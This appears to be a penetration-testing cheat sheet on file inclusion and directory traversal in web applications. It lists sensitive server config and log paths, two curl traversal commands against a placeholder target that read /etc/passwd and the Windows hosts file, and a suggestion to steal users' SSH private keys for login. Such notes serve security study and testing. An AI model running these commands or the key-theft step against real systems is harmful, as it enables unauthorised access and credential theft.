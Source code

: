 
# Common Attacks towards Web Applications

## File Inclusion

Linux Web Servers

* PATH `/var/www/html/login.html.`
* URLs `https://example.com/login.html`
* POIs `https://example.com/cms/login.php?page=en.html`
  * subfolder cms
  * PHP language
  * file inclusion

Windows Web Server

* [LFI](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e)
* [IIS Log Management](https://learn.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
* ISS Conf `\inetpub\wwwroot\web.config`
* ISS Logs `\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log`
* Apache Conf `/xampp/apache/conf/httpd.conf`
* Apache Logs `/xampp/apache/logs/access.log`
* Apache Logs `/xampp/apache/logs/error.log`
* Sensitive information: user, passwords

## Directory Traversal

* Test if path traversal is possible
* Windows `C:\Windows\System32\drivers\etc\hosts`
* Linux `/etc/passwd`

Curl

* --path-as-is for ../
* Windows LFI without C:

```bash
curl --path-as-is http://target-URL/public/../../../../../../../../WINDOWS/System32/drivers/etc/hosts
curl --path-as-is http://target-URL/public/../../../../../../../../etc/passwd

```

On Windows system, try to read `C:/WINDOWS/System32/drivers/etc/hosts` file first to test for path traversal. Next try to read files of the identified web server and it's configuration file or logs. Try to find sensitive information like username or passwords.

In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of `/etc/passwd`, check for private keys in their home directory `/home/user/.ssh/id_rsa`, and use them to access the system via SSH.
